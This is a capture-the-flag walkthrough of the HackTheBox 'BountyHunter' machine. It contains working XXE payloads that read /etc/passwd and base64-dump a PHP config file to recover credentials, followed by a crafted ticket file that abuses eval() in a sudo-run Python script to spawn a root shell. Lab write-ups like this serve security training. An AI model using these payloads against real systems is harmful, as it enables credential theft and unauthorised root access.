# BountyHunter CTF - HackTheBox Room
# **!! SPOILERS !!**
#### This repository documents my walkthrough for the **BountyHunter** CTF challenge on [HackTheBox](https://app.hackthebox.com/machines/BountyHunter). 
---

from scan we see open ports 22 and 80



we can inspect main page



if we head to `Portal` we see some other link



we see a form, if we send the data, the same data is reflected in XML format





we can try simple XXE injection

```
<?xml  version="1.0" encoding="ISO-8859-1"?><!DOCTYPE replace [<!ENTITY example "Doe"> ]>
		<bugreport>
		<title>title</title>
		<cwe>cwe</cwe>
		<cvss>&example;</cvss>
		<reward>1337</reward>
		</bugreport>
```



it works and we can try other payloads, we can display /etc/passwd using 

```
<?xml  version="1.0" encoding="ISO-8859-1"?><!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/passwd"> ]>
		<bugreport>
		<title>title</title>
		<cwe>cwe</cwe>
		<cvss>&ent;</cvss>
		<reward>1337</reward>
		</bugreport>
```



sadly there isnt any private ssh key, we can try to display files that are serverd by the server

we can check the config file suggested by AI 


 
```
<?xml  version="1.0" encoding="ISO-8859-1"?><!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/var/www/html/db.php"> ]>
		<bugreport>
		<title>title</title>
		<cwe>cwe</cwe>
		<cvss>&xxe;</cvss>
		<reward>1337</reward>
		</bugreport>
```

it works we see some credentials



with password that we found we can login to ssh as development, we can also grab user flag



we see that we can run `sudo /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py`



we cam try to check the /opt directory



if we inspect source code we see that this Python script reads and validates a `.md` file containing ticket data. If the ticket passes certain checks, it is marked as valid.



Vulnerability:

The vulnerability is in the eval() function, where the code uses eval() on user-controlled input from the file:

```
validationNumber = eval(x.replace("**", ""))
```

if we supply file like this we will gain root shell



```
# Skytrain Inc Ticket Validation System 0.1
## Ticket to Shell Access

__Ticket Code:__
**60+__import__('os').system('/bin/bash')**
```



we got root access and root flag



# MACHINE PWNED
